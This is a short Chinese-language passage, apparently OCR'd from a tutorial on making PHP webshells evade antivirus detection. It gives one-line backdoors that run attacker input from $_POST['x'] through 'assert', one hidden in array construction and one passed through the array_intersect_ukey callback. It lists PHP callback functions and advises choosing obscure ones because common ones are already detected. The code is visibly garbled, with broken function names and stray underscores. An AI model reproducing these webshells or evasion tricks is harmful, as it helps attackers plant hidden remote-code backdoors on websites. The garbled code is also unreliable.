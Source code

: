 
除此外还可以使⽤多维数组：


```php
_<?php
$b = substrreplace("assexx","rt",4);_
$a = array($arrayName = array('a' => $b($_POST['x'])));
?>_

```


### 利⽤回调函数免杀


常⽤的php回调函数有：


```php
call_user__funcarray()
call__user_func()
array_filter() array__walk()
arraymap()
registregister__shutdown_function()
register_tick__function()
filtervar()
filter__var__array()
uasort()
uksort()
arrayreduce()
arraywalk()
array__walk_recursive()

```


> 注意常⽤的回调函数⼤部分都已经加⼊了免杀套餐，所以我们需要尽可能的去寻找⽐较⽣僻的回调函数。


例如：


```php
<?php
array_intersect__ukey(array($POST["x"] => 1), array(1), "assert");
?>_

```


![2020%2003%2018%2022%2011%20{second.png](../post_images/9a9482b1399763391a192e8b6b7ef5e4.png)
